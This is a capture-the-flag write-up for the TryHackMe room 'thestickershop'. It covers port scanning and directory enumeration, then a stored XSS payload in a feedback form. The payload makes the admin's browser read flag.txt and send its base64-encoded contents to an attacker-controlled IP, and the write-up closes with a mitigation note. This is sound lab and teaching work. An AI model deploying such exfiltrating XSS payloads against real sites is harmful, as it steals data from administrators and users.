

# THM | thestickershop

**Disclaimer:** The tools and techniques demonstrated are for educational purposes only. Never test any system without explicit written consent of the owner.

**Link:** [THM - thestickershop](https://tryhackme.com/r/room/thestickershop)

The challenge is to read the flag at `http://10.10.34.74:8080/flag.txt`


# Reconnaissance

```bash
export IP="10.10.34.74"
```

## Host Discovery and Port Scanning

Confirm that the host is online and accessible:
```bash
ping -c 1 $IP

PING 10.10.34.74 (10.10.34.74) 56(84) bytes of data.
64 bytes from 10.10.34.74: icmp_seq=1 ttl=64 time=0.884 ms
```

The `ttl=64` is an early indication the OS is likely Linux. Next, identify open TCP ports:
```bash
sudo nmap -vv -n -sS -p- $IP

Not shown: 65533 closed ports
Reason: 65533 resets
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 64
8080/tcp open  http-proxy syn-ack ttl 64
```

## Service Enumeration

```bash
sudo nmap -vv -n -sV -sC -p $PORTS $IP

PORT     STATE SERVICE    REASON         VERSION                                                      
22/tcp   open  ssh        syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0) 
8080/tcp open  http-proxy syn-ack ttl 64 Werkzeug/3.0.1 Python/3.8.10
```


# Web Enumeration and XSS

Through manual enumeration and directory brute forcing with `gobuster`, the below paths are found:

```
/
/submit_feedback
/view_feedback
```


Viewing feedback appears to be restricted to authorised users, however it is possible to submit feedback:


Using a XSS payload to trick the administrator's web browser into getting the flag and sending it to the attacker machine:
```javascript
<script>const url = "http://127.0.0.1:8080/flag.txt"; fetch(url).then(response => response.text()).then(data => { const content = data; fetch('http://10.10.107.77:443/s?c=' + btoa(content)); });</script>
```

Leading to retrieval of the flag: 




This is the only flag to collect in the challenge.


# Mitigations

The vulnerability in the feedback submission form is the absence of input sanitisation. Including a library with functions to safely sanitise HTML input would mitigate this attack vector.
